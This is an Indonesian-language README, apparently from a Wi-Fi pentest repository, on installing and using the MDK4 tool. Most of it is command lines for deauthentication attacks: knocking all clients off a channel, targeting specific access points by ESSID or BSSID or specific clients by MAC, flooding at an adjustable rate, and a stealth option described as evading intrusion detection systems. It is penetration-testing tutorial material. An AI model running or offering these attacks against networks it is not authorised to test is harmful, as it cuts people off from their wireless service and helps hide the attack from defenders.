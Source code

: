 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk4 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev git
   git clone https://github.com/aircrack-ng/mdk4
   cd mdk4
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   2. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```
      
      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   3. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   4. Speed Control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```

      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   5. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```

      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   6. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   7. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   8. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   9. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```

      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
